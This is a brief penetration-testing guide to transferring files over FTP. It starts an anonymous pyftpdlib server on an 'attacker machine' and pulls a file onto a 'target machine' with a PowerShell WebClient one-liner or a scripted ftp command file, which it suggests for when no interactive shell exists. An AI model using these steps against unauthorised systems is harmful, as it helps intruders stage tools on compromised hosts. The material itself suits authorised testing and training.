 

**FTP (File Transfer Protocol)** uses **ports 21 and 20**. It’s an old but simple way to move files between computers.

You can use:

- The built-in **Windows FTP client**
    
- **PowerShell** with a one-line command
    

---

## 1. Start an FTP Server (Attacker Machine)

First, install the FTP module:

```bash
sudo pip3 install pyftpdlib
```

Then start the FTP server on **port 21**:

```bash
sudo python3 -m pyftpdlib --port 21
```

**Note:** This allows anyone to connect (anonymous login).

---

## 2. Download a File with PowerShell (Target Machine)

Run this command to download a file from the FTP server:

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

This will save the file into the `C:\Users\Public` folder.

---

## 3. Automate FTP with a Script (Target Machine)

If you don’t have an interactive shell, you can script the commands:

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

Then check if the file downloaded:

```cmd
more file.txt
```

Example output:

```
This is a test file
```

---

## 4. Tips

- **FTP is not encrypted**, so don’t use it for sensitive files unless you’re on a secure network.
    
- Use `binary` mode for non-text files so they don’t get corrupted.
    
- If security is needed, add a username and password to your FTP server.
    

---
